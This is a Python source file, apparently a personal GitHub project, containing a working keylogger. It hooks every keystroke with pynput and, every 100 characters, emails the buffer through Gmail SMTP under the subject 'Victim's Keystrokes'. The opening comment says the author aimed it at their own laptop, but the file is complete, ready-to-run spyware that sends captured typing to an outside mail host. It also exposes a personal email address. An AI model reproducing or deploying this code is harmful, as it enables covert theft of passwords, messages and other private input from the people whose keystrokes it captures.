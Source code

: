# Keylogger
#My personal project which involves coding a keylogger in Python3. The keylogger targeted my own laptop and sent the keystrokes to my personal email.
#YouTube Tutorial ---> 
#Python version 3.11.2
from pynput.keyboard import Listener
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText

keystrokes = ""

def log_happykey(key):
    global keystrokes
    key = str(key).replace("'", "")

    if key == 'Key.space':
        key = ' '
    elif key == 'Key.enter':
        key = '\n'
    elif key == 'Key.shift':
        key = ''
    elif key == 'Key.backspace':
        key = '<'

    keystrokes += key

    # Check if the accumulated keystrokes reach 500, then send an email. Change this number as you like
    if len(keystrokes) >= 100:
        send_email_with_content(keystrokes)
        keystrokes = ""  #Reset keystrokes after sending the email

def send_email_with_content(content):
    from_email = "Jherbal2015@gmail.com"
    to_email = "Jherbal2015@gmail.com"
    password = ""

    msg = MIMEMultipart()
    msg['From'] = from_email
    msg['To'] = to_email
    msg['Subject'] = "Victim's Keystrokes"
    msg.attach(MIMEText(content, 'plain'))

    server = smtplib.SMTP('smtp.gmail.com', 587)
    server.starttls()
    server.login(from_email, password)

    server.sendmail(from_email, to_email, msg.as_string())

    server.quit()

#Start keystroke logging
with Listener(on_press=log_happykey) as l:
    l.join()
